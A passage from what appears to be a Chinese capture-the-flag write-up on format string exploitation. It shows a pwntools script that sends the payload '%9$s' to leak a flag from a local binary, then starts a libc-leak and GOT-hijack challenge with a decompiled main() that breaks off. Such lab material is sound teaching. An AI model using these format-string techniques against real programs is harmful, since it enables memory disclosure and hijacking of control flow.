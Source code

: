 exp:

```plain
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
io.recvuntil(b"flag")
payload="%9$s"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-3cfa53227669b0c21619c855f5846ae6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223829-c33a66d6-2578-1.png)

#### fmstr3

##### libc 泄露&劫持 GOT

前期准备工作

[![](assets/1701612281-dce68457c17542b71cb7009ff5aa625b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223833-c59f9c70-2578-1.png)

IDA 静态分析一下

**main()**

```plain
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char s1; // [esp+14h] [ebp-2Ch]
  int v5; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(&s1);
  ask_password(&s1);
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();
      v3 = get_command();
      v5 = v3;
      if ( v3 != 2 )
```